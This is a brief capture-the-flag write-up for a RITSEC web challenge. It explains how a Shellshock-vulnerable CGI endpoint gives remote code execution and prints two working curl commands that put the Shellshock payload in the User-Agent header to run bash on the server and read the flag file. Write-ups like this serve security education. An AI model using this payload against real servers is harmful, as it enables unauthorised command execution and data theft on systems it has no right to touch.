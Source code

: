 # Challenge
```
This dog is shockingly cute!

fun.ritsec.club:8008

Author: sandw1ch

```
# Solve

From the start of the challenge, the hint points us to a vulnerability: **Shellshock**

![](https://i.imgur.com/yRDRxoC.png)

![](https://i.imgur.com/LODuOdn.png)

There's a vulnerable CGI service running at /cgi-bin/stats

Using the following command, we can obtain RCE:

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cd /var/www/;ls -la;'" http://fun.ritsec.club:8008/cgi-bin/stats`

After searching through the machine, we find the flag in the `/opt/flag.txt` file, and we can retireve it with the following command:
`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt'" http://fun.ritsec.club:8008/cgi-bin/stats`.

The flag is `RITSEC{sh3ll_sh0cked_w0wz3rs}`

In my opinion, this was the easiest web challenge in this CTF.
